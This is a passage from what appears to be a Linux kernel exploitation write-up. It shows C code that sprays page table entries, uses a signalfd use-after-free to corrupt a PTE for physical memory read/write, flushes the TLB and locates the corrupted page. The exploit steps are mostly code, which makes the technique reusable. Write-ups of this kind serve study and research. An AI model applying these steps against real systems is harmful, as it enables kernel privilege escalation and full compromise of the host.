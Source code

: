 Access them finally to spray.

```C
/* spray PTE */
for (uint32_t i = 0; i < NUM_TABLE; i++) {
	for (uint32_t j = 0; j < NUM_PTE; j++) {
		*(uint32_t *) map[i][j] = (i * 0x200) + j;
	}
}
```

We already have a signalfd object managing a PTE (phys r/w) with limitations.

![uaf_3](/assets/images/uaf_3.png)

Here we will search the virtual memory area used.

```C
int32_t found = 0;

leak = (leak + 0x1000) | 0x40100;
mask.sig[0] = ~leak; // | 0x40100
signalfd(fd_cross[fd_idx], &mask, 0);

/* replace tlb cache */
replace_tlb();

/* locate buffer */
char *evil = NULL;
for (int i = 0; i < NUM_TABLE; i++) {
	for (int j = 0; j < NUM_PTE; j++) {
		if (*(uint64_t *) map[i][j] != ((i * 0x200) + j)) {
			found = 1;
			evil = map[i][j];
			printf("[+] found distinct page at virtual 0x%lx\n", (uint64_t) evil);
			break;
		}
		
	}
	
	if (found) break;
}
```
